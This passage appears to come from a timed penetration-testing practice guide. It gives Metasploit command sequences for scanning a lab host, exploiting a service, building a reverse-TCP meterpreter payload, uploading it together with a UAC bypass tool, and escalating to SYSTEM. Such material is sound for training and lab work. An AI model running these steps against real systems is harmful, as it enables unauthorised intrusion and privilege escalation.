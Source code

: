 **Step-by-Step Approach:**
```bash
# Step 1: Verify target (1 minute)
ping -c 4 192.168.1.100

# Step 2: Find services (2 minutes)
nmap 192.168.1.100

# Step 3: Identify web service version (2 minutes)
nmap -sV -p 80 192.168.1.100
# Look for service name and version

# Step 4: Research exploits (2 minutes)
searchsploit [service_name] [version]
# Example: searchsploit apache 2.4

# Step 5: Execute exploitation (3-5 minutes)
msfconsole -q
use exploit/[path_found_in_searchsploit]
set RHOSTS 192.168.1.100
exploit

# Step 6: Verify access (1 minute)
getuid
sysinfo
```

#### **Scenario 2: Custom Payload and File Transfer**
**Given:** Valid shell access, need to upload tools and escalate privileges
**Your Job:** Create custom payload, transfer files, achieve SYSTEM access
**Time Limit:** 8-12 minutes

**Step-by-Step Approach:**
```bash
# Step 1: Create custom payload (2 minutes)
msfvenom -p windows/meterpreter/reverse_tcp LHOST=your_ip LPORT=5555 -f exe > custom.exe

# Step 2: Set up handler (1 minute)
msfconsole -q
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST your_ip
set LPORT 5555
exploit

# Step 3: Upload payload via existing session (2 minutes)
# In original session:
upload custom.exe C:\Temp\
upload uac_bypass_tool.exe C:\Temp\

# Step 4: Execute UAC bypass (3-4 minutes)
shell
cd C:\Temp
uac_bypass_tool.exe method_number C:\Temp\custom.exe

# Step 5: Verify elevated access (1 minute)
# In new handler session:
getuid
# Should show: NT AUTHORITY\SYSTEM
```
